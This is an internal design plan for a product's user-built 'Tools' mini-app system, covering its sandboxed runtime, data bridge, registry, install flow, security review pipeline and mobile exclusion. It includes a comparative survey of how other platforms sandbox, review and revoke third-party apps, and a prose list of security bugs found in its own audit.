






# Tools system plan

**Status:** approved 2026-09-25 — implementation starts once the decisions in
§11 are made.

A Tool is a user-built mini-app that runs inside a space over that space's own
data. This plan audits what exists, compares it with how other platforms do the
same job, and designs the complete system: authoring, packaging, sharing,
review, security, and where tools may run.

---

## 0. Summary

Visvine already has a serious Tools core: a Tool is a folder of notes compiled
on write, drawn in a sandboxed iframe on a cookie-less origin, and it reaches
data only through a bridge that runs **as the viewer** and can only **narrow**
what the viewer could already see. Published versions are immutable snapshots
carrying two separate approvals — the space's, and Visvine's for the global
marketplace (`apps/web/lib/tools/*`, `docs/tools.md`, 27 tool test files).

That core is the right foundation, and it matches what the strongest platforms
converged on (MCP Apps, OpenAI's apps, Claude Artifacts, Figma, Atlassian
Forge). The plan keeps it and fills nine gaps:

1. **Tools are built into today's rail — no separate tools page.** An installed
   tool is its own row on the space's existing rail, beside Directory and
   Channels, and you switch between tools the way you switch between those.
   There is no Tools hub with a switcher inside it. On its own page a tool may
   use the top band for its sections, or a side list in the style of the app's
   own panels. The app's own components — the sidebar included — are in the
   kit and in the context every authoring path hands the AI, so a tool matches
   the app by default; an author who wants a different look says so and
   iterates. Its About view (in the tool's ⋯ menu) is its package page.
2. **Reach.** The bridge reaches notes, connectors and agents. It does not reach
   records, files, actions, AI, or any store for per-event data (votes,
   sign-ups). Add `records.*`, `resources.*`, `actions.run`, `ai.*`,
   `collections.*` and host `ui.*` services — each declared, each run as the
   viewer. Records need a platform fix first: a type a member invents (*Deal*)
   has no fields, no table and no query today.
3. **Portability.** A tool's declared reach is literal paths in the space that
   wrote it, so a global tool cannot fit another space. Add **bindings**: the
   tool names what it needs by kind (a folder, a record type, a connector); the
   installing admin points each at their own.
4. **The space's shape has no UI.** Installing a tool is MCP-only today — even
   an admin cannot add a tool to their own space from the app. Add the install
   sheet (placement, bindings, settings) on the tool's page.
5. **Packages and discovery.** No package format, export, import or browsable
   directory exists (the old `/tools` marketplace was deleted on 2026-09-01).
   Add the `.vvtool` package and Tools in Discover.
6. **Pipeline.** Today's checks are compile and lint. Add a recorded, staged
   pipeline — compatibility, then security (static rules, secrets, dependency
   feeds, a permission-risk score, AI review that can only add findings), then a
   person — with a dynamic run against a honeypot space before anything goes
   global.
7. **Revocation and global safety — warn and monitor, both.** Nothing can pull
   an approved or listed version today: once installed it runs until each space
   uninstalls it. Add suspend and revoke states that the bridge obeys on the next
   call and the host obeys by removing the frame; install-time consent for
   admins; a first-use notice and provenance line for members; telemetry, CSP
   reports, frame-navigation detection and anomaly flags.
8. **Authoring.** MCP stays primary. Add the in-app **AI builder** (on the
   space's model, through the same actions) and **Workbench** (edit, preview,
   check, publish) — both agreed — and a starter repo + CLI for local
   vibe-coding.
9. **Mobile exclusion.** Nothing on the server tells the phone apps from web
   or desktop today, the iOS app has a Tools tab, and a phone's token can mint
   frame tokens and run `data.js`. The phone apps are the only clients that
   send their session as a Bearer token, so the doors where a tool runs refuse
   Bearer sessions and phone-issued tokens; the phones' own responses stop
   carrying tools; the iOS tab goes.

**Decided with you (2026-09-25):** tools live in the existing rail, one row per
tool, with no separate tools page; a tool's own navigation uses the top band
or a side list in the app's own style (§3.6); the app's components are handed
to every authoring path so tools match the app by default, and an author may
choose their own look; "adding to the space's shape" means installing and
placing a tool — rail row, type pages, bindings, sharing into rooms; in-app
building is the AI builder plus the Workbench.

**Four live security bugs** turned up in the audit (§9.1). The first two sit
outside Tools and should be fixed now, independent of this plan; the other two
open its first milestone:

1. The mobile Google sign-in sends a fresh 30-day session token to whatever
   `redirectUri` the request's `state` names — account takeover by link.
2. `PATCH /api/nodes/<id>` lets any member write any metadata key on any node
   in their space — including an event's `hosts`, `status` and `visibility`, so
   a member can make themselves an event's manager or publish a private draft to
   the open web.
3. A tool preview runs the unreviewed draft with the reach of whoever opens it
   — including an admin sent the link, which the preview page invites.
4. A tool's admin-only lock is enforced only in the browser.

The roadmap (§10) puts what you asked for first — tool pages in the rail, adding tools
to a space's shape, and building tools in the app — and makes sure every new
power a tool gains arrives after the checks that review it.

---

## 1. Current state

### 1.1 What a Tool is today

A Tool is a folder of notes — `tools/<name>/index.md` (config in frontmatter,
docs in the body), `ui.md` and `data.md` (one fenced source block each,
addressed as `ui.tsx` and `data.js`), optional `icon.md` — that may be filed in
any folder of the space's own whose index declares `type: tool`
(`lib/tools/config.ts`, `lib/tools/location.ts`). Every write recompiles it into
an `app_tool_builds` row (esbuild; only React, `react-dom/client` and
`@visvine/tool-kit` may be imported). Publishing snapshots config, perimeter,
sources and bundles into an immutable `app_tool_versions` row. An admin installs
a version (`app_tool_installs`), which gives it a rail row and a page at
`/s/<space>/t/<slug>`, and optionally a page or tab on a node type.

At runtime the page mints a 300-second frame token, the frame loads from
`TOOLS_ORIGIN` (`sandbox="allow-scripts"`, `connect-src 'none'`), and every read
or write goes frame → `postMessage` → host → `POST /api/tools/bridge` →
`lib/tools/bridge.ts`, which runs as the **viewer**, checks the tool's declared
**perimeter** first (five deny-by-default lists: read globs, write globs, types,
connectors, agents) and the viewer's own grants second. `data.js` runs in the
QuickJS isolate connectors use, with `fetch`, `sql` and `mcp` removed.

### 1.2 Inventory

| Area | Exists and works | Half-built | Missing |
|---|---|---|---|
| **Authoring** | notes as source; compile on write with line/column diagnostics; MCP actions `create_tool`, `write_tool`, `read_tool`, `list_tools`, `check_tool`, `preview_tool`, `publish_tool`, `install_tool`, `get_tool_sdk` (`lib/actions/defs/apps.ts`); `build_tool` recipe with an intake; headless render and screenshot (dev, or prod with `TOOLS_SCREENSHOT=on`) | the Tool tab on `/directory/tool:<name>` (`ToolPageContent.tsx`) shows build, reach and versions, but its Publish button is admin-only and its copy still describes the removed marketplace flow | an in-app editor; multi-file sources; any dependency beyond React and the kit; a local dev loop; a CLI; a starter repo |
| **Runtime** | cookie-less tools origin with a host split in `proxy.ts`; sandbox + strict CSP; frame tokens; the bridge with 11 methods (`context.list/read/search/write/append`, `connectors.call`, `agents.run`, `data.call`, `state.get/set`, `subject.get`); size caps; change pings over SSE; degraded mode; error card; writes sealed out of `tools/`, `agents/`, `connectors/`, `models/`, following declarations | the rate and concurrency limits (120 calls/min per viewer per install, 2 concurrent `data.call`) are in-process maps, so N instances allow N times as much (`lib/tools/limits.ts`) — AGENTS.md requires limits as rows; `state` is one store per install shared by every viewer; `agents.run` returns a run id with no way to read its status; the seal covers writes only — a tool reading `**` as an admin reads connector notes, agent briefs and other tools' source | reach into records, files, events, actions or AI; per-viewer state; navigation detection; CSP reporting; telemetry |
| **Registry** | immutable versions numbered from 1; the space verdict (`status`) and Visvine's (`marketplaceStatus`); member publish → pending → admin approval on Console → Approvals; supersede on re-publish; perimeter and code diffs for review; trusted-publisher auto-approve; super-admin review panel under Console → Tools | global listing is a REST call with no UI and no action (`action: 'list'`); `withdrawVersion` has no route; `docs/tools.md`, `apps.ts` and AGENTS.md say rooms may install their house's versions, but `installability` never allowed it — rooms get house tools only through `share:` | any way to pull an approved or listed version; author consent to a listing; a check record; automated security review |
| **Installs and shape** | install with slug de-duplication; rail rows through `featureConfig` (`tool:<slug>`), placed, locked and hidden in Console → Tools (`SpaceToolsPanel.tsx`); type pages and tabs with conflict handling; share-down into rooms (`lib/tools/share.ts`, `ShareWithRooms` on the Tool tab); upgrade offers with perimeter diff | installing has **no UI**: `POST /api/spaces/[id]/tools` has no caller, so even an admin adds a tool to their own space only over MCP; the per-install admin-only lock is enforced in the browser only | bindings; an install sheet; install management over MCP (uninstall, enable, claims, upgrade — REST only) |
| **Discovery and packaging** | `GET /api/tools/registry` (browse, paged) | the API outlives its UI: the `/tools` marketplace (Browse, InstallDialog, ToolDetail) was deleted on 2026-09-01 (`e327ae23`) and the Mine tab with "Submit to marketplace" on 2026-09-18 (`f3309525`) | a Package page, package format, export, import, a Tools directory, space templates |
| **Security testing** | 26 `tests/tools-*.test.ts` files plus the icon sanitizer's; `verify:tools` (end to end) and `verify:tools:escape` (adversarial: undeclared reads, cookie theft, content-area escape, cross-space) | — | a scanner, a malicious-sample corpus, dynamic analysis |
| **Clients** | web; desktop runs the same web app unchanged | the iOS app has a Tools tab that opens tools in Safari | any server-side notion of which client is calling (§8) |

### 1.3 The data layers, and what a tool can touch

Visvine keeps data in three tiers (`docs/data-architecture.md`): **declarations**
as context notes, **runtime rows** in Postgres, **bytes** in GCS. Mapped to the
terms in the brief:

**Structured data**

- **Records** are typed `Node` rows (`schema.prisma:1282`) with a note each.
  Built-in fields per type come from `lib/types/typeFields.ts`; a space adds
  **tracked fields** (`NodeTypeConfig.fields`, `lib/types/context.ts:58-68`)
  whose values live in `node.metadata`, are written through
  `PATCH /api/nodes/<id>`, and are mirrored into the note's frontmatter
  (`lib/notes/context/mirroredFields.ts`). The Directory's Table view is the
  structured surface (`lib/directory/table.ts#columnsForType`).
- **But only node-backed kinds are records.** A type a member invents
  (`scope: 'note'`, e.g. *Deal*) is only notes carrying `type: deal`: no node
  rows, no tracked fields, not in the Directory's type list
  (`useDirectoryBrowse.ts:87`), and search cannot filter on frontmatter values
  (`retrieval.ts:23-33`). No action, agent tool or bridge method can set a
  tracked field — the store holds mirrored keys fixed against note writes
  (`store.ts#enforceIndexContract` over `entityContractOf`). The one writer,
  `PATCH /api/nodes/<id>`, is not a tracked-field door at all: it merges any
  key from any member of the space, and values are checked only in the browser
  (`lib/directory/table.ts#parseCellInput`) — see §9.1.
- **Events** (event nodes + `event_attendees`, `lib/eventRepo.ts`) and
  **channels and messages** (`lib/messages/*`) have their own services and a few
  actions (`list_events`, `create_event`, `update_event`, `create_channel`,
  `share_resource`).
- **External databases and APIs** are reached through connectors, including a
  read-only single-`SELECT` `sql` host (`lib/connectors/hostSql.ts`).
- **There is no store for records a tool produces per event** — the removed
  kanban (`004a911f`, dropped in `b300c5fd`) was the last attempt; `state` is a
  64 KB × 100-key scratchpad.

**Unstructured data**

- **Notes**: the whole of `contextService` — visibility lens, grants, write
  gates, freeze-for-AI, revisions — plus fused search (BM25, note and chunk
  vectors, source chunks, link neighbours, a judge that drops off-topic hits).
- **Files and links** are `resources` (uploads, links with unfurls), each an
  entity with extracted, searchable text (`lib/resources/*`); bytes only through
  `/raw` and `/thumb` behind `requireVisibleResource`.
- **Context sources** (uploaded documents) and **derived memories** feed search.

**The context layer — the creation layer**

- **Links are derived**: a markdown mention creates an edge; entities are
  folders whose index is the entity.
- **Every creation is an Action** (about fifty, `lib/actions/defs/*`), reached
  by HTTP, the MCP router and one MCP tool per action, all through `runAction`
  with one scope gate (`lib/mcp/scopes.ts`: eleven scopes).

**A tool today reaches** notes (perimeter ∩ grants), connectors, agents and its
own state — nothing else. The records, files, events, actions and AI rows of the
table in §3.3 are all "none" today.

### 1.4 Packaging and the shape of a space

There is no Package page, package format, export, import, clone, template or
blueprint for tools or spaces anywhere in the repo, its docs or its history.
The nearest things are the seed scripts, unused `AGENT_TEMPLATES`, note
publications (a live copy of one note in another space) and sub-space
`PRESETS` (dial settings). A space's shape today is its `spaces` row —
`featureConfig` (rail order, tucked rows, admin-only locks), `nodeTypes` (the
type vocabulary with tracked fields), visibility and sub-space dials — plus its
installs.

The rail already treats built-in areas (Directory, Channels) and installed
tools alike as rows (`features/shared/components/layout/Sidebar.tsx`), and the
shell's top band (`ShellTopBar.tsx`) carries a page's tabs and actions on one
line — the Directory's *Grid · Context · Table · Resources* is drawn there by
`PaneTabBar.tsx`. An installed tool's page (`ToolPage.tsx`) uses neither: it
sets a title and hands the whole pane to the frame, so each tool draws its own
navigation.

### 1.5 Clients

- **Web** runs everything.
- **Desktop** loads the same web app in one `BrowserWindow`
  (`contextIsolation`, `sandbox`, no Node in the page; `apps/desktop/src/main.ts:220-228`),
  signs in by PKCE hand-off into an ordinary `auth_session` cookie, and polices
  main-frame navigation only (`will-navigate`; `will-frame-navigate` is unused).
  Tool frames render unchanged; nothing in the shell is tool-specific.
- **Mobile**: see §8.1 — the server cannot tell the phone apps apart, and iOS
  has a Tools tab.

### 1.6 Where the docs and code disagree

`docs/tools.md` describes agent briefs at `agents/<name>.md` and
`agents/live/**`, an Approvals tab "of `/tools`", and three sealed folders (the
code seals four, `models/` too). `publish_tool`'s reply and the `build_tool`
recipe's step 6 say publishing submits to the marketplace; the `tools:author`
scope description and `docs/icons.md` mention the deleted Mine tab; comments in
`lib/featureAccess.ts`, `SPACE_ROUTE_ROOTS` and `t/[slug]/page.tsx` still name a
`/tools` destination; AGENTS.md mentions a Console "Build" section that does not
exist and lists the phone tabs without iOS's Tools tab; `prisma/TABLES.md` has
no `app_tool_*` rows. M0 corrects all of it.

---

## 2. Research findings

Official documentation unless marked **(3P)**, a third-party analysis.
Researched September 2026.

### 2.1 Where the field has converged

1. **UI code runs in a sandboxed iframe on a separate user-content origin,
   behind a deny-all CSP, and reaches the host only through a `postMessage`
   bridge the host executes.** MCP Apps turned this into a standard, stable since
   2026-01-26 and supported by Claude, ChatGPT and VS Code: host and sandbox
   "MUST have different origins", the default policy is `connect-src 'none'`,
   and the host builds the CSP only from domains the app declares
   ([spec](https://github.com/modelcontextprotocol/ext-apps/blob/main/specification/2026-01-26/apps.mdx),
   [announcement](https://blog.modelcontextprotocol.io/posts/2026-01-26-mcp-apps/)).
   ChatGPT serves each app from its own `web-sandbox.oaiusercontent.com`
   subdomain in a double-nested iframe
   ([OpenAI](https://developers.openai.com/blog/15-lessons-building-chatgpt-apps));
   Claude artifacts load from `*.claudeusercontent.com`
   ([docs](https://code.claude.com/docs/en/artifacts)); Figma's UI iframe has a
   `null` origin ([Figma](https://developers.figma.com/docs/plugins/how-plugins-run/));
   Discord Activities send all traffic through `{clientId}.discordsays.com` and
   do not support WebRTC
   ([Discord](https://docs.discord.com/developers/activities/development-guides/networking)).
   **Visvine's runtime already is this pattern.**
2. **Effective access = declared scopes ∩ the viewer's own rights; the host
   makes every call; the app never holds a credential.** Forge's front-end
   `requestJira` runs as the current user, needs both the manifest scope and the
   user's own Jira permission, and has "no equivalent of `asApp()`"
   ([Forge](https://developer.atlassian.com/platform/forge/custom-ui-bridge/requestJira/)).
   A Claude artifact can call only the connectors declared when it was
   published, through the viewer's own connection — "the page never sees
   anyone's credentials" — and asks each viewer before the first call
   ([docs](https://code.claude.com/docs/en/artifacts)). Coda injects credentials
   a Pack never sees ([Coda](https://coda.io/packs/build/latest/guides/basics/authentication/));
   Retool runs queries server-side with the resource's credentials
   ([Retool](https://docs.retool.com/self-hosted/self-managed/guides/origin-sandbox)).
   **Visvine's bridge already does this for notes; the plan extends it to every
   data layer.**
3. **Consent at install, and again on escalation.** Chrome disables an
   extension whose update adds a warning-bearing permission until the user
   accepts ([Chrome](https://developer.chrome.com/docs/extensions/develop/concepts/permission-warnings));
   a Forge version cannot add scopes or egress without a site admin re-approving
   ([Forge](https://developer.atlassian.com/platform/forge/security/)).
4. **Automated validation → scan → human review for public listing →
   continuous rescans.** VS Code scans every publish with Defender engines,
   runs packages in a clean-room VM, rescans the whole marketplace periodically,
   and force-uninstalls blocked extensions (136 reviewed, 110 removed in 2025)
   ([Microsoft](https://developer.microsoft.com/blog/security-and-trust-in-visual-studio-marketplace/),
   [VS Code](https://code.visualstudio.com/docs/configure/extensions/extension-runtime-security)).
   Obsidian scans every plugin version since 2026-05-13 and drops failures from
   search within 24 hours ([Obsidian](https://obsidian.md/blog/future-of-plugins/)).
   OpenAI makes changed tool definitions live only after automated checks pass
   ([OpenAI](https://developers.openai.com/apps-sdk/deploy/submission)).
   Anthropic's directory tiers submissions as *Community* (scanned) or
   *Verified* (tested by reviewers), and labels both
   ([Anthropic](https://claude.com/docs/connectors/verification)).
5. **Point-in-time review is the weak point.** 73 cloned extensions on Open VSX
   sat dormant until an update turned them malicious (April 2026) and GlassWorm
   hid its payload in invisible Unicode (October 2025)
   ((3P) [THN](https://thehackernews.com/2026/04/researchers-uncover-73-fake-vs-code.html),
   (3P) [Veracode](https://www.veracode.com/blog/glassworm-vs-code-extension/)).
   Every version must earn its approval again.
6. **Revocation reaches running copies.** VS Code uninstalls blocked
   extensions automatically; Chrome disables malware "on all end user devices"
   where it "cannot be re-enabled"; Atlassian can pause or suspend an app
   ([Chrome](https://developer.chrome.com/docs/webstore/review-process),
   [Atlassian](https://developer.atlassian.com/platform/marketplace/marketplace-security-enforcement-policy/)).
7. **AI builders emit the same code as hand authors, on the same API.** Figma's
   agent has generated plugins on the ordinary plugin API since 2026-06-24, with
   the code viewable, downloadable and editable over Figma's MCP server
   ([Figma](https://help.figma.com/hc/en-us/articles/43028920030743-Generate-plugins-with-the-Figma-agent));
   Airtable's Omni builds interface elements on the public SDK
   ([Airtable](https://community.airtable.com/announcements-6/new-interface-extensions-sdk-releasing-to-open-beta-46375));
   Atlassian ships a Forge MCP server and agent skills
   ([Forge](https://developer.atlassian.com/platform/forge/ai-development-toolkit/)).

### 2.2 Platform by platform

| Platform | Runtime | Adopt | Avoid |
|---|---|---|---|
| **OpenAI Apps / plugins** | MCP server + widget iframe per app subdomain; CSP from `_meta.ui.csp` | declared CSP; read-only/destructive annotations drive confirmation; changed definitions go live only after checks; admin default "new actions off or read-only" ([reference](https://developers.openai.com/apps-sdk/reference), [security](https://developers.openai.com/apps-sdk/guides/security-privacy)) | third-party embeds, which escape the widget's CSP |
| **OpenAI GPT Actions** | server-to-server OpenAPI calls | confirm every non-read call (`x-openai-isConsequential`) ([Actions](https://developers.openai.com/api/docs/actions/production)) | one shared API key for every user |
| **MCP Apps** | `ui://` HTML in a separate-origin sandbox; JSON-RPC over `postMessage` | deny-all default CSP; host-gated calls; app-only tools; allow/block by resource hash ([spec](https://github.com/modelcontextprotocol/ext-apps/blob/main/specification/2026-01-26/apps.mdx)) | remote-page apps; treating visibility as authorization |
| **Claude Artifacts** | per-artifact origin; capabilities declared at publish | host-executed calls as the viewer; first-use consent; no public sharing for connector-backed pages; "user-generated and unverified" label; an admin switch that cuts off existing links ([docs](https://code.claude.com/docs/en/artifacts)) | one shared origin for every desktop artifact and an IPC bridge that skips per-call checks ((3P) [Bloom](https://bloom.security/blog/claude-artifacts)) |
| **MCP Registry, MCPB, Anthropic directory** | metadata registry; signed zip bundles | namespace proof by DNS or GitHub; hash-pinned signed packages; typed install-time `user_config`; trust tiers with a warning before connecting ([registry](https://modelcontextprotocol.io/registry/authentication), [MCPB](https://github.com/modelcontextprotocol/mcpb/blob/main/MANIFEST.md)) | unsandboxed local execution; no re-review after a change |
| **Figma** | plugin logic in QuickJS-WASM; UI in a null-origin iframe | VM isolation for logic (Figma moved there after the Realms-shim escapes, [Figma](https://www.figma.com/blog/an-update-on-plugin-security/)); a network label on the listing; an admin allowlist that takes effect immediately | forcing APIs to accept any origin; unreviewed updates |
| **VS Code** | unsandboxed extension host | scan every version; signed packages; a trust prompt for a new publisher; forced uninstall; verified publisher = proven domain + six months in good standing | full-privilege extensions; trusting later versions of approved code |
| **Atlassian Forge** | hosted functions behind an egress proxy; UI Kit (host-drawn) or Custom UI (iframe) | egress declared once, compiled into CSP and proxy; scopes ∩ user; re-consent on escalation; a "Runs on Atlassian" badge for apps with no egress; pause-app ([permissions](https://developer.atlassian.com/platform/forge/manifest-reference/permissions/), [badge](https://developer.atlassian.com/platform/forge/runs-on-atlassian/)) | `allow-same-origin` without a per-app origin |
| **Shopify UI extensions** | Web Worker + remote-DOM; Polaris components only | host-drawn UI cannot impersonate the host's chrome; a hard bundle budget ([Shopify](https://shopify.engineering/remote-rendering-ui-extensibility)) | auto-approved capability flags |
| **Chrome MV3** | fixed extension CSP; remotely hosted code banned | only the reviewed bundle ever runs; re-consent on escalation; remote disable ([Chrome](https://developer.chrome.com/docs/extensions/develop/migrate/remote-hosted-code)) | permission warnings without context |
| **Retool** | custom components in cross-origin iframes; queries server-side | a dedicated sandbox domain; immutable versions deployed from a CLI ([Retool](https://docs.retool.com/apps/guides/custom/custom-component-libraries)) | any same-origin opt-in |
| **Val Town** | a Deno subprocess per run | process or VM isolation for server code — "you can't really use JavaScript to build a JavaScript sandbox"; imported code never inherits the importer's secrets ([Val Town](https://blog.val.town/first-four-val-town-runtimes)) | `vm` / `vm2` |
| **Coda Packs, Slack** | server-side code with declared domains | one egress domain by default; declared `outgoingDomains`; declared datastores ([Coda](https://coda.io/packs/build/latest/guides/basics/fetcher/), [Slack](https://docs.slack.dev/tools/deno-slack-sdk/guides/using-the-app-manifest/)) | — |
| **Notion** | public integrations over OAuth | the installer chooses which pages a connection sees — the nearest analogue to bindings ([Notion](https://developers.notion.com/docs/authorization)) | — |
| **Raycast** | one isolate per extension, not otherwise sandboxed | open source, reviewed by pull request; MIT for the store ([Raycast](https://developers.raycast.com/basics/prepare-an-extension-for-store)) | no capability sandbox |
| **Replit** | agent-built apps | block publishing on critical scan findings ([Replit](https://docs.replit.com/replit-workspace/workspace-features/security-scanner)) | an agent working on production data ((3P) [The Register](https://www.theregister.com/2025/07/21/replit_saastr_vibe_coding_incident/)) |
| **Discord, Slack** | — | cap the reach of unreviewed apps: Discord limits unverified Activities to servers under 25 members ([Discord](https://support-dev.discord.com/hc/en-us/articles/26576097154199-What-are-Verified-and-Unverified-Activities)); Slack rate-limits unlisted apps ([Slack](https://docs.slack.dev/changelog/2025/05/29/rate-limit-changes-for-non-marketplace-apps/)) | — |
